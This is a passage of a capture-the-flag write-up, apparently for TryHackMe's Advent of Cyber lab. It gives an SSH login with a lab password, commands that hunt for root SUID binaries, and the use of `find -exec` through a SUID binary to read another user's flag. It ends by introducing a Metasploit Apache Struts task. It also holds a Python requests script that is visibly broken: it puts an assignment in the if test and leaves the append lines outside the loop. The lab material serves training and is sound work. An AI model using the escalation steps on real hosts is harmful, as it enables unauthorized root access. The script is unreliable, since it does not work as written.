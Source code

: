 Use `ssh` to login to machine as user `holly` and password `tuD@4vt0G*TU`. But the ssh service is not running on default port and could be got from `nmap` scan.
{% capture code %}{% raw %}ssh holly@<ip> -p 65534{% endraw %}{% endcapture %} {% include code.html code=code%}

If looked at location `/usr/bin` there would be a binary with `SUID` tag set with ownership of user `igor`. An output similar to below will be obtained. Use the <binary> to get the flag.
{% capture code %}{% raw %}holly@<hostname>:~$ ll <binary>
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 <binary>
holly@<hostname>:~$ find /home/igor -name flag1.txt -exec cat {} \;
    <flag>{% endraw %}{% endcapture %} {% include code.html code=code%}

Use `find` to find executables which has `SUID` set as root user.
{% capture code %}{% raw %}find / -user root -perm -4000 2>/dev/null{% endraw %}{% endcapture %} {% include code.html code=code%}

There is a binary set with `SUID` for root. Trying to execute will allow users to run any command as root, and using the same the `flag` can be retrieved.


## Task 14 - Day 9 - Requests

This task is about getting `web` page contents programatically and stitching together the message from each web page.


Use these links as references.
- [TryHackMe supporting material](https://docs.google.com/document/d/1FyAnxlQpzh0Cy17cKLsUZYCYqUA3eHu2hm0snilaPL0/edit?usp=sharing){:target="_blank"}


When accessing the url `http://10.10.169.100:3000`, there is a response `{"value":"s","next":"f"}`. Accessing page with next value `http://10.10.169.100:3000/f` will give another string.

This can be done manually or programatically. An example script would be like below. Executing the script will give the <flag>.
{% capture code %}{% raw %}import requests

init_response = requests.get( 'http://10.10.169.100:3000' )

message = init_response.json()['value']
nxt = init_response.json()['next']

while True:
    response = requests.get( "http://10.10.169.100:3000/" + nxt )
    if response.json()['value'] = 'end':
        break

message += response.json()['value']
nxt = response.json()['next']

print(message){% endraw %}{% endcapture %} {% include code.html code=code%}


## Task 15 - Day 10 - Metasploit-a-ho-ho-ho

This task is about using `nmap` to get web service information and using `metasploit` to exploit `apache struts 2` vulnerability.
